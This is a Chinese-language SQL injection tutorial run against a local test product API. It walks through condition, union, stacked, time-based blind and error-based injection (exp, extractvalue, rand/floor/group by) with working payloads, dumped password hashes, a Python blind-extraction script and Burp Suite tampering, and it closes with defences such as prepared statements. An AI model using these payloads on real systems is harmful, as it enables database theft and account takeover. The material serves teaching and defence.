

# sql注入的N种方式

## 环境准备


图中所示接口主要就是根据ID查询相关数据。我们可以通过输入`1'`探测是否有sql注入点。结果返回了下列报错，这是因为`'`在sql中是一个关键符号，用来闭合输入的信息，那么我们如果错误的将他作为输入会导致sql无法闭合而报错。而后端直接将异常未加封装打到了前端。这就给我们提供了注入的可能性。

```json
{
  "timestamp": "2021-06-15T14:40:28.539+0000",
  "status": 500,
  "error": "Internal Server Error",
  "message": "\r\n### Error querying database.  Cause: java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1\r\n### The error may exist in com/example/security/mapper/ProductMapper.java (best guess)\r\n### The error may involve com.example.security.mapper.ProductMapper.searchProduct-Inline\r\n### The error occurred while setting parameters\r\n### SQL: select * from product where id = 1'\r\n### Cause: java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1\n; bad SQL grammar []; nested exception is java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1",
  "path": "/stock/reduce"
}
```

## 攻击注入

### 条件注入

条件注入是常见的一种注入方式，就是在本来的输入后面加上`or 1=1`或者`and 1=1`这样的条件，导致查询到原本限定条件之外的数据。这里我们输入`or 1=1`就会导致后面的条件永远为真，查询到所有的数据。

```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 2,
    "productName": "i-000000000002",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 2000
  },
  {
    "id": 3,
    "productName": "i-000000000003",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 3000
  },
  {
    "id": 4,
    "productName": "d-000000000004",
    "specification": "ssd",
    "type": "DISK",
    "price": 1500
  },
  {
    "id": 5,
    "productName": "d-000000000005",
    "specification": "edds",
    "type": "DISK",
    "price": 2500
  },
  {
    "id": 6,
    "productName": "eni-000000000006",
    "specification": "vpc",
    "type": "ENI",
    "price": 800
  }
]
```

### union注入

**step1**：union会将两个联合查询的结果作为一个并集返回，如果没有查询到，会将查询列直接返回。如下我们输入`1 union select 1,2-- `，会发现抱错如下：

```json
{
  "timestamp": "2021-06-15T14:46:10.651+0000",
  "status": 500,
  "error": "Internal Server Error",
  "message": "\r\n### Error querying database.  Cause: java.sql.SQLException: The used SELECT statements have a different number of columns\r\n### The error may exist in com/example/security/mapper/ProductMapper.java (best guess)\r\n### The error may involve com.example.security.mapper.ProductMapper.searchProduct-Inline\r\n### The error occurred while setting parameters\r\n### SQL: select * from product where id = id = 1 union select 1,2,34,5--\r\n### Cause: java.sql.SQLException: The used SELECT statements have a different number of columns\n; bad SQL grammar []; nested exception is java.sql.SQLException: The used SELECT statements have a different number of columns",
  "path": "/stock/reduce"
}
```

**step2：** 通过一步一步的尝试，我们最终在输入`1 union select 1,2,3,4,5-- `后得到了正确的响应。由此我们可以推测出查询语句一共查了5个字段。

```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "2",
    "specification": "3",
    "type": "4",
    "price": 5
  }
]
```

**step3：** 然后我们输入下面语句`1 union select 1,user(), database(), table_name,5 from information_schema.tables where table_schema = database()--`查询出数据库以及表信息：

```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "root@117.136.86.30",
    "specification": "security",
    "type": "database_lock",
    "price": 5
  },
  {
    "id": 1,
    "productName": "root@117.136.86.30",
    "specification": "security",
    "type": "product",
    "price": 5
  },
  {
    "id": 1,
    "productName": "root@117.136.86.30",
    "specification": "security",
    "type": "user",
    "price": 5
  }
]
```

**step4：** 根据以上的返回结果，我们可以看出当前的数据库名称为：**security**，一共有三个表：**database_lock**、**product**、**user**。那么根据常理推测，**user**这个表极有可能存储的就是网站的用户名密码等信息。接下来我们通过表明反查出这个表有哪些列。`1 union select 1,column_name, 3,4,5 from information_schema.columns where table_name = 'user'--`

```java
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "id",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "name",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "password",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "create_time",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "update_time",
    "specification": "3",
    "type": "4",
    "price": 5
  }
]
```

**step5：** 知道了表结构就可以通过union语句联合查询出对应表的所有数据：`1 union select id,name, password,4,5 from user `。发现其中password是加密过的，我们去百度破解一下。[破解网站](https://www.cmd5.com/)

```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "root",
    "specification": "2ecdde3959051d913f61b14579ea136d",
    "type": "4",
    "price": 5
  },
  {
    "id": 2,
    "productName": "haha",
    "specification": "e10adc3949ba59abbe56e057f20f883e",
    "type": "4",
    "price": 5
  }
]
```

### 堆叠注入

上面的例子中，虽然我们拿到了密码，也成功破解了密码，但是这是基于密码简单的情况，那么如果密码复杂，破解不了怎么办呢？一个思路就是直接修改用户密码为我们已知的简单密码，这个可以利用堆叠注入来实现。何为堆叠注入呢，就是输入类似`1;update user set password = '12345' where id =1`这种方式，让执行完查询语句后在执行更新语句，以达到我们的目的。但是很遗憾，这种方式有很大的局限性，主要就是我们常用的ORM框架并不支持同时执行多条sql语句，因此很难实现注入。据了解，这种方式在php语言中可以成功实践。

### 时间盲注

前面两种注入方式都是在有返回值且将sql异常打印到前端的情况下可以利用的，那么如果我们要攻击的网站没有任何返回信息该怎么办呢，这里在介绍一种注入方式：**时间盲注**。他利用了一个mysql提供的核心函数：`sleep()`。这个函数可以让sql语句执行完毕后延迟特定的时间在返回。例如这条sql语句` select * from product where id = 111 and sleep(10)`，如果id=111的数据存在，那么and前面的条件为真，就会走到后面的`sleep`函数，延迟10秒返回结果，如果id=111的数据不存在，and前面的条件为false，那么就不会走到sleep而直接返回。因此，根据这个特性，我们就可以用来猜测数据库名称、表结构等一系列动作。比如我们可以构造这样一条sql语句：`select * from product where id = 1 and substr(database(),1,1)='a' and sleep(10)`。那么如果`substr(database(),1,1)='a'`为真，就会响应很慢，我们就可以推测出数据库第一个字母就是`a`，否则就换`b`在尝试，如此循环，直到找到正确的为止。因为这个动作是比较耗时耗力的，如果我们手动来做，肯定很辛苦，所以一般可以采用python脚本的方式来实现：

```python
import requests;
import time;

def getDatabaseLength():
    for i in range(1,20):
        url = 'http://localhost:8888/stock/reduce?id=1 and length(database())=%d and sleep(2)'%(i)
        startTime = time.time()
        requests.get(url)
        endTime=time.time()
        if endTime - startTime > 1:
            print('length is => ',i)
            return i

def getDatabaseName():
    databaseName = ''
    databaseLength = getDatabaseLength()
    for i in range(1, databaseLength + 1):
        for asci in range(33,128):
            url = 'http://localhost:8888/stock/reduce?id=1 and ascii(substr(database(),%d,1))=%d and sleep(2)'%(i,asci)
            startTime = time.time()
            requests.get(url)
            endTime=time.time()
            if endTime - startTime > 1:
                # print(chr(asci))
                databaseName = databaseName + chr(asci)
                break
    print('database name is => ', databaseName)


if __name__ == "__main__":
    getDatabaseName()
```

### 报错注入

sql中有很多特殊的函数，如果提供一个错误的输入，会触发一些报错，那么如果这些函数被黑客利用，很有可能会暴漏出来一些敏感的信息，从而导致被攻击。下面我们会列举一些常见的可能会引起攻击的特殊函数。

- `exp()` 这个函数用来返回e的x次方，当x小于709的时候，是可以正确返回的，而如果x大于709就会报错，因为这个函数返回的结果是用double来承载的，而double类型是有范围的，超过这个范围自然会报错。

  ```sql
  select exp(709)
  --8.218407461554972e307
  select exp(710)
  --Data truncation: DOUBLE value is out of range in 'exp(710)'   这里报错了，并且将输入710打印了出来
  ```

  那么这个时候我们就可以思考了，如果这里输入的不是710，而是查询数据库名称、用户等语句，那到时候会不会将数据库名称、用户等暴漏出来呢？实际操作发现在高版本的mysql中是不会的，而低版本是会的。这里测试了8.x版本是不会的，5.4.x是会的。下面列出在5.4.x执行的效果：

  ```sql
   -- select * from(select user())a  这一步会查询出当前用户并作为一个子集
   -- ~这个运算符会将上一步查询到的结果转换成0在取反，得到一个非常大的数字18446744073709551615
   -- 在传递给exp就会报错
   select exp(~(select * from(select user())a));
   --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'  暴露出了用户
  ```

  结合上面的例子，我们看看如何通过这个报错获取到数据库中的用户名密码

  ```sql
  select exp(~(select * from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
  --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'user' from dual)))'  获取到了表名 user
  
  select exp(~(select * from(select column_name from information_schema.columns where table_name='user' limit 0,1)x));
  --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'User' from dual)))'  一步一步获取user表的列名，拼装出表结构
  
  select exp(~(select * from(select concat_ws(':',id, name, password) from user limit 0,1)x));
  --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '1:root:2ecdde3959051d913f61b14579ea136d' from dual)))' 获取到了root用户的密码
  ```

- `extractvalue()`  这个函数支持两个参数，第一个参数是字符串，用来表示一个xml文件的路径，第二个参数是字符串，用来表示一段xpath语法。可以实现根据第二个参数解析一个特定的xml文件，拿到其对应的数据的功能。那么如果我们构造一个不符合xpath语法的输入，就会报错。例如：

  ```sql
  select extractvalue(1,concat(0x7e,database()))--
  --XPATH syntax error: '~security'  0x7e表示~，concat(0x7e,database())表示~security(数据库名称), 因为~security不符合xpath语法，所以报错
  ```

  那么这里我们就可以思考，是否可以通过类似于`exp`讲的那种方式注入一些非法的输入，来获取用户名密码呢，答案是肯定的：

  ```sql
  select extractvalue(1,concat(0x7e,user(), 0x7e,database()))--
  --XPATH syntax error: '~root@100.104.175.140~security'   获取用户名密码
  select extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 2,1)))--
  --XPATH syntax error: '~user'  获取到user表名
  select extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='user' limit 52,1)))
  --XPATH syntax error: '~name' 获取表结构
  select extractvalue(1,concat(0x7e,(select concat_ws(':',id, name, password) from user limit 0,1)))
  --XPATH syntax error: '~1:root:2ecdde3959051d913f61b145'  获取用户名，密码
  ```

- `updatexml()`函数顾名思义是可以更新xml的，注入原理和`extractvalue()`类似。

- `rand()`+`floor()`+`count()`+`group by` 实现注入。这个组合也是可以实现报错注入的，要探究这其中的奥妙，需要先理解这几个函数分别是做什么用的。

  **`floor()`**函数用来返回一个不大于x的最大整数
  
  ```sql
    select floor(0.1), floor(2.1), floor(-0.3)
    +------------+------------+-------------+
    | floor(0.1) | floor(2.1) | floor(-0.3) |
    +------------+------------+-------------+
    |          0 |          2 |          -1 |
    +------------+------------+-------------+
  ```
  
  **`rand()`**函数用来生成一个0到1之间随机浮点数，他又真随机和伪随机两种策略。如果不给任何参数，每次生成的随机数是不一样的，如果给了一个参数，那么每次生成的参数就是一样的，我们叫做伪随机。因此：
  
  ```sql
  select rand(0) from tables limit 1,10; -- 返回的结果也是固定的
  +---------------------+
  | rand(0)             |
  +---------------------+
  | 0.15522042769493574 |
  |   0.620881741513388 |
  |  0.6387474552157777 |
  | 0.33109208227236947 |
  |  0.7392180764481594 |
  |  0.7028141661573334 |
  |  0.2964166321758336 |
  |  0.3736406931408129 |
  |  0.9789535999102086 |
  |  0.7738459508622493 |
  +---------------------+
  select rand(0)*2 from tables limit 1,10; -- 返回的结果也是固定的
  +--------------------+
  | rand(0)*2          |
  +--------------------+
  | 0.3104408553898715 |
  |  1.241763483026776 |
  | 1.2774949104315554 |
  | 0.6621841645447389 |
  | 1.4784361528963188 |
  | 1.4056283323146668 |
  | 0.5928332643516672 |
  | 0.7472813862816258 |
  | 1.9579071998204172 |
  | 1.5476919017244986 |
  +--------------------+
  select floor(rand(0)*2) from tables limit 1,10  -- 返回的结果是固定的，这个结果记住，很重要
  +------------------+
  | floor(rand(0)*2) |
  +------------------+
  |                0 |
  |                1 |
  |                1 |
  |                0 |
  |                1 |
  |                1 |
  |                0 |
  |                0 |
  |                1 |
  |                1 |
  +------------------+
    
  ```
  
  **`group by`** 实现分组的过程。下面我们准备一张表，看一下`group by`是如何实现分组的。
  
  
  
  这里我们按照type字段进行分组`select type,count(*) from product group by type;`，会经过以下几步：
  
  1. 建立一个虚拟表，key是主键
  2. 查询第一条数据，看在虚拟表中是否存在，如果不存在，则插入，`count(*)`设置为1
  3. 查询第二条数据，看在虚拟表中是否存在，如果存在，则`count(*)`在原来的基础上+1
  
  
  
  接下来，我们将上面的sql稍作改动`select count(*),concat_ws('-', (select user()), floor(rand(0)*2))x from product group by x`结果报了一个错。
  
  ```sql
  select count(*),concat_ws('-', (select user()), floor(rand(0)*2))x from product group by x
  Duplicate entry 'root@100.104.175.68-1' for key '/home/mysql/log/tmp/#sql2351_cbc_5.<group_key>'【解决方法】：https://help.aliyun.com/document_detail/198139.html
  ```
  
  这个原因在[mysql官网对rand()函数的介绍](https://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand)中有说明。原文如下，用我不好的英语翻译下大概是说，在`ORDER BY`或者`GROUP BY`字句中使用带有`RAND()`值的列可能会发生一些意外的效果，因为`RAND()`函数可以被同一行计算多次，每次返回不同的结果。
  
  > Use of a column with [`RAND()`](https://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand) values in an `ORDER BY` or `GROUP BY` clause may yield unexpected results because for either clause a [`RAND()`](https://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand) expression can be evaluated multiple times for the same row, each time returning a different result. If the goal is to retrieve rows in random order, you can use a statement like this:
  >
  > ```sql
  > SELECT * FROM tbl_name ORDER BY RAND();
  > ```
  >
  > To select a random sample from a set of rows, combine `ORDER BY RAND()` with `LIMIT`:
  >
  > ```sql
  > SELECT * FROM table1, table2 WHERE a=b AND c<d ORDER BY RAND() LIMIT 1000;
  > ```
  >
  > [`RAND()`](https://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand) is not meant to be a perfect random generator. It is a fast way to generate random numbers on demand that is portable between platforms for the same MySQL version.
  
  具体怎么理解呢，这里还是结合上面这个报错的sql语句的执行过程给大家总结以下，他的整个执行过程可分为下面几步：
  
  1. 因为按照`concat_ws('-', (select user()), floor(rand(0)*2))x`分组，那么x会被作为分组的虚拟表的主键。第一次得到**root@100.104.175.68-0**，这条数据是不在虚拟表中的，然后x会被在计算一次，得到**root@100.104.175.68-1**，插入虚拟表中，**count(*)**设置为1
  2. 第三次查询x，得到**root@100.104.175.68-1**，查询虚拟表发现这条记录已经存在，那么**count(*)**直接+1
  3. 第四次查询x，得到**root@100.104.175.68-0**，查询虚拟表没有发现这条记录，将会计算第五次得到**root@100.104.175.68-1**，准备插入虚拟表，结果不好意思，这条记录已经存在了，所以报错主键冲突。
  
## 渗透工具

### 用Burp Suite修改请求

  **step1：** 安装Burp Suite。官网链接：[Burp Suite官网](https://portswigger.net/burp)

  **step2：** 设置代理


  

  **step3：** 如果要拦截https请求，还需要在客户端安装证书


  **step4：** 拦截到请求可以在**Proxy** -> **HTTP History**中查看，选中后右键可以选择**Send Repeator**，然后在Repeator中实现修改请求，重新发送的功能

  

  **step5：** 修改请求，重新发送


### 用Burp Suite修改响应

**step1：** 拦截到响应后选择**Actions** -> **Do Intercept** -> **Response to this request**


**step2：** 点击**Forward**，然后会发现返回到的页面被修改


## 防御策略

### sql注入的危害

  经过前面的讨论，我们可以发现，sql注入有很多途径，也有很多危害：

  1. 可以通过条件注入看到不该看到的数据
  2. 可以通过union注入，破解数据库表结构，非法获取用户名和密码，进而破解整个webapp的权限系统
  3. 如果是PHP等支持多条sql同时执行的语言或框架，且数据库权限不严谨，甚至有可能通过堆叠注入的方式被注入update、delete等危险的语句，进而导致被删库删表

### sql注入的防御

  其实这些漏洞的发生，其核心问题可以归纳为两点

  1. 对用户的输入未作任何校验，让`'`,`selct`,`union`,`rand`,`;`,`or`等可能会引起注入的关键字直接被拼接到sql中，改变了原来的逻辑
  2. 敏感异常未作处理直接抛出到了前端，像sql异常、文件异常、加解密异常等都属于敏感异常，他们可能会暴露你的表结构，文件系统结构，密钥等敏感信息，千万不能直接将异常堆栈直接输出到前端。

  那么找到问题后，就可以对症下药，我们这里整理出了常见的防御策略

  1. 不要信任用户的任何输入，一定一定要对可能引起注入的字符做转义和过滤
  2. 预编译，这是一个大家都知道的手段，体现在mybatis中就是要用**`#`**接受输入，他的底层利用了jdbc的预编译手段，会提前将sql预编译成占位符的形式，然后将输入进行替换，以防止sql注入
  3. 对异常要做封装处理在抛出，切记不可直接将异常堆栈输出到前端